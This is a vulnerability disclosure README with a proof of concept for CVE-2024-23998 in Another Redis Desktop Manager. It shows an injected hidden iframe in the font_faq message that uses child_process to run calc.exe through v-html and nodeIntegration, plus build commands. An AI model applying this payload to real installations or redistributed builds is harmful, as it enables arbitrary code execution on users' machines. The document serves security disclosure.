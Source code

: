 # Another Redis Desktop Manager PoC
A Proof-Of-Concept for CVE-2024-23998 vulnerability.
#### 1. Vunerability Overview:
* Vulnerability Subject: Local Code Excution via XSS
* Vulnerability Version: =< 1.6.6
* Attack Type: Remote Code Execution
* Attack Vectors: To exploit the vulnerability, we must patch font_faq html message for Setting function. When hovering the mouse over the font family help icon, malicious script in font_faq message execute and we can run OS command.
* Reserved CVE Number: CVE-2024-23998

#### 2. Vulnerability Cause:
Step 1) In Setting.vue, there is v-html function, so malicious JS script can run through this fucntion.\
![alt text](image.png)
<br><br>
Step 2) When we install Another Redis Desktop Manager, Windows security blocks the installation. Because of that, if an attacker patches the installation file, the user won't know it has been patched.\
![alt text](image-1.png)
<br><br>
Step 3) We can find font faq message in en.js file\
![alt text](image-2.png)
<br><br>
Step 4) Let's patch the message that execute calc.exe\
```
font_faq: '1. Multiple fonts can be set<br>\
    2. Font selection is orderly. It is suggested to choose English font first and then font in your language<br>\
    3. When the system font list cannot be loaded in some exceptional cases, you can enter the installed font name manually.\
    <iframe style="display:none;" onload="require(`child_process`).exec(`C:/Windows/System32/calc.exe`);"></iframe>',
```
<br><br>
Step 5) Build the program using npm.\
```
npm install --platform=win32
npm start
npm run electron
```
<br><br>
Step 6) When you hover mouse cursor on Font Famliy help icon, calculator is executed.
![alt text](image-3.png)

AnotherRedisDesktopManager is a good target for attackers because it is used by many people, and it is easy to modify and redistribute files distributed as Electron applications. That's why many projects recommend not using v-html if possible. Additionally, because the nodeIntegration option is enabled, if it is maliciously modified and distributed, remote code execution is possible with the permissions of AnotherRedisDesktopManager.